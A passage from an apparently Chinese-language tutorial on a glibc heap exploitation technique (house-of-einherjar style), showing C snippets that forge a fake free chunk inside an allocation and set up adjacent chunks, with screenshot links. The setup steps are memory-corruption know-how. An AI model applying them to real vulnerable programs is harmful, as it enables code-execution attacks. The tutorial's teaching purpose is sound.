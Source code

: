 ```bash
intptr_t stack_var[4];
    intptr_t *a = malloc(0x38);
```

接下来我们在 `chunk a` 内伪造一个 `fake free chunk` ，这个 chunk 的 `prev_inuse` 位为 0， `fd` 和 `bk` 指针都改为 `chunk a`的地址

```bash
a[0] = 0;    // prev_size (Not Used)
a[1] = 0x60; // size
a[2] = (size_t) a; // fwd
a[3] = (size_t) a; // bck
```

[![](assets/1702521085-64e31f09df64c1472f8d3eac253c8356.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230824-2316e5f0-9380-1.png)

新 malloc 了两个堆块，`chunk b` 大小 0x30，`chunk c` 大小 0x100

```bash
uint8_t *b = (uint8_t *) malloc(0x28);

    int real_b_size = malloc_usable_size(b);

    uint8_t *c = (uint8_t *) malloc(0xf8);
```

[![](assets/1702521085-e424eb784e0f7d9b3573d2f7836091c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230842-2dc9a6d6-9380-1.png)
